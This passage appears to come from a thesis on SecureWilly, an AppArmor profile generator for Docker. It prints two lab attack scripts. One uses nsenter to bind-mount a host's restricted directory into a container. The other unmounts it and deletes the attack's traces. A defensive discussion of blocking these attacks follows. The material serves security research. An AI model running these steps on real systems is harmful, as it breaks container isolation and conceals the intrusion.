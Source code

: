 \begin{lstlisting}[style=bashscript, caption={6\_attack\_to\_container\_part3\_mount.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#File created on previous script
container_pid=$(cat PID)

#Bind mounting of restricted_area to doot
nsenter --target ${container_pid} --mount --pid -- mount -o bind /tmpmount/${attack}/restricted_area /doot
\end{lstlisting}

Executing ls /tmpmount in the attacked container before and after the attacker runs 6\_attack\_to\_container\_part3\_mount.sh :

\begin{lstlisting}[style=dockercommands]
root@f785aa219433:/# ls doot/
root@f785aa219433:/# ls doot/
HellloFromTheOtherSide
\end{lstlisting}

Lastly, we run script 7\_attack\_to\_container\_part4\_device.sh to clean up after ourselves, unmounting the whole host filesystem. The bind-mount is unaffected if we execute only the first umount command. If we want to clean up our footprints totally we can execute the second umount command, as well. This script requires the umount rule which we encountered in the AppArmor profile.

\begin{lstlisting}[style=bashscript, caption={7\_attack\_to\_container\_part4\_device.sh}]
#!/bin/bash

#Attacking directory where attacker's scripts are
attack="/home/ubuntu/SecureWilly/Attacks/Nsenter/Mount_hosts_filesystem"

#Files created on previous scripts
container_pid=$(cat PID)

#Umount host's directory from tmpmount
nsenter --target ${container_pid} --mount --pid -- umount /tmpmount
#Umount host's restricted_area from doot when the attack is over
nsenter --target ${container_pid} --mount --pid -- umount /doot

#Clear files
rm PID
rm dockerps
rm containerid
rm major_num
rm minor_num
rm sdev_of_fs*
\end{lstlisting}

\subsection{SecureWilly vs Nsenter attacks}
In the reverse engineering phase of developping SecureWilly, we first examined the attacker's AppArmor profile. We had two options to stop the attacks we examined in the previous section through the profile: deny capabilities or deny ptrace operations. 

